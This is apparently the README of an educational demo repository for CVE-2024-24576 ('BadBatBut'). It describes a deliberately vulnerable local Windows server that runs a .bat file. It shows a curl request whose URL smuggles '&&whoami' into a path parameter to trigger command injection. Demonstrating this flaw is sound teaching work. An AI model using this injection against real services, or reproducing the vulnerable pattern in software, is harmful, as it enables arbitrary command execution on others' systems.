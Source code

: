 # CVE-2024-24576 BadBatBut Demo

This is a simple demo for the BadBatBut vulnerability CVE-2024-24576.

This repository is for educational purposes only.

## Usage

### Pre-built binary
- Get the pre-built windows binary from the [releases]().
- Run the server binary `./badbatbut-demo.exe`

### Build from source
- Clone this repo
- Run the code on a Windows box `cargo run`

### Exploit

The server exposes an endpoint `/server_info/{server}` on `http://localhost:9999` which runs a .bat file to fetch server info.
The vulnerability can be exploited by sending a GET request to this endpoit like follows:

```
curl http://localhost:9999/server_info/localhost&&whoami
```
